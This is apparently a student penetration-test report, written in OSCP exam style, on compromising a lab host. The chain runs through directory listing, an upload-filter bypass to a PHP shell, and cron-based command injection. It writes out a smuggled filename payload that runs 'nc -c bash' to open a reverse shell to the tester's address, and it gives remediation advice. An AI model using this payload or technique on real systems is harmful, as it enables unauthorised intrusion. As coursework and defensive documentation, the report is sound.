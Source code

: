 ```yaml
---
title: "Offensive Security Checkpoint 01"
author: ["RM87187@fiap.com.br, RM86663@fiap.com.br, RM87101@fiap.com.br, RM87079@fiap.com.br, RM88582@fiap.com.br"]
date: "2022-09-01"
subject: "Pentest report"
subtitle: "OSCP like exam report"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
```

# Offensive Security OSCP like exam report


## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The students is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.

# High level summary

I was tasked with conducting an internal penetration test for the offensive security exam.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to carry out attacks, similar to those of a hacker and try to infiltrate the machine chosen by the teacher.
My overall goal was to assess the target and escalate privilege on the machine.
During internal penetration testing, several alarming vulnerabilities were identified in the target.

## Recommendations

We recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit this system in the future.

# Methodologies

We use a widely adopted approach to performing penetration testing.
Below is a summary of how we were able to identify and exploit each individual vulnerability found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, we were tasked with exploiting the target chosen by teacher.
The specific IP addresses were:

- 192.168.57.5

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.57.5      | **TCP**: 22,80,443\
		    

**Nmap Scan Results:**

![Nmap scan](https://github.com/Alta-Cupula/Offensive/blob/main/imagem1.png)

*Initial Shell Vulnerability Exploited*

When enumerating the HTTP service, a "backup" directory was identified that has a directory listing issue and gave us access to a compressed file called "backup.tar".
![Directory Listing](https://github.com/Alta-Cupula/Offensive/blob/main/imagem2.png)

After unzipping the file we can read the source codes:
![Source code - upload](path/uploadphp.jpg)
![Source code - lib](path/libphp1.jpg)
![Source code - lib](path/libphp2.jpg)

Analyzing the code, we can see that it checks if the file size is smaller than 60,000, checks if a file is actually being uploaded and checks if the file extension matches any of those in a predefined list. For that it uses the "getnameUpload" function, which exists in the "lib.php" file that is imported for use in the upload form.
This "getnameUpload" function creates a variable called "pieces" and splits the filename into parts, the "name" variable takes these pieces and replaces "." by "_" and the variable "ext" takes the last part after the "." to check the extension.
So when PHP executes the function, PHP takes the name of the image, for example "gabriel.png", reads it as an array and separates it into parts.
part 0 = gabriel
part 1 = png
It executes the variable "name" which has the value "gabriel", tries to replace all "." by "_" but as it has none, the value remains "gabriel" and executes the variable "ext" which has the value "png".
Now if we use the example "gabriel.php.png" PHP will separate it into 3 parts:
part 0 = gabriel
part 1 = php
Part 2 = png
The variable "name" still has the value "gabriel", it tries to replace all the "." by "_" but as it doesn't have any value, it's still "gabriel", but this time the variable "ext" will have "php.png" as its value.
We can also see a function called "check_file_type" that is checking the magic bytes of the file being uploaded, which means that just changing the extension in this case would not work, as the file must actually have the magic byte of a png or another file listed in the array earlier.

![Bless](path/bless.jpg)

After creating a PHP shell with the characteristics that we have already identified as being necessary, we get an RCE in the application.
![Uploading](path/requisicao.jpg)
![RCE](path/rce.jpg)

Using python we got the reverse shell.
![Reverse](path/reverse.jpg)


**Vulnerability Explanation: In this case, there were several vulnerabilities that led to the initial compromisement of the target, such as information disclosure due directory listing and unrestricted file upload.**

**Vulnerability Fix:
Directory listing can be disabled in the webserver configuration file.
To solve the information disclosure you can change the permission of the file "backup.tar".
Ways to fix unrestricted file upload issue:
- The file types allowed to be uploaded should be restricted to only those that are necessary for business functionality.
- Never accept a filename and its extension directly without having an allow list filter.
- The application should perform filtering and content checking on any files which are uploaded to the server. Files should be thoroughly scanned and validated before being made available to other users. If in doubt, the file should be discarded.**

**Severity: Critical**

**user.txt Proof Screenshot**
![Guly](path/gulyflag.jpg)


#### Privilege Escalation

When accessing the user directory "guly" we do not have permission to read the file "user.txt", however reading the file "crontab.guly" we can see that there is a configuration that executes the file "/home/guly/check_attack. php" every 3 minutes.
![Crontab](path/crontab.jpg)

So when reading the file check_attacks.php we can see a variable "$path" that has the static value defined as "/var/www/html/uploads", however the variable "value" is created receiving the input of "files".
The variable "files" is using PHP's "scandir" function passing the value "." meaning it wants to list all files and directories in THIS directory. Which means that if we create a file putting malicious content in the name PHP will probably try to execute it.
So, creating a file called ";nc -c bash 192.168.57.4 9999;" we can get a reverse shell as guly because in line code would be: "exec("nohup /bin/rm -f /var/www/html/uploads;nc -c bash 192.168.57.4 9999; > /dev/null 2>&1 &")"
![Malicious file](https://github.com/Alta-Cupula/Offensive/blob/main/arquivomalicioso.png)
![Reverse as guly](path/reverseasguly.jpg)
![Guly](path/gulyflag.jpg)

After being as guly we run the command "sudo -l" and notice that there is a script that we have permission to run as root.
![SUID file](path/suid.jpg)

The script contains some variables with static content but others that are received by user input, and when it comes to network script where the variable format is "test=gabriel", then if we add a space after the term "gabriel" and we write, that term will be executed.
![Privesc](path/privesc.jpg)

*Additional Priv Esc info*

**Vulnerability Exploited: Command injection in the "check_attacks.php" script and abuse of network script with SUID.**

**Vulnerability Explanation: These vulnerabilities allowed command injection only by not handling user input and reflecting it directly in the script **

**Vulnerability Fix:Fix check_attacks.php handling with user input**

**Severity: Critical**

**Proof Screenshot Here:**
![Privesc](path/privesc.jpg)
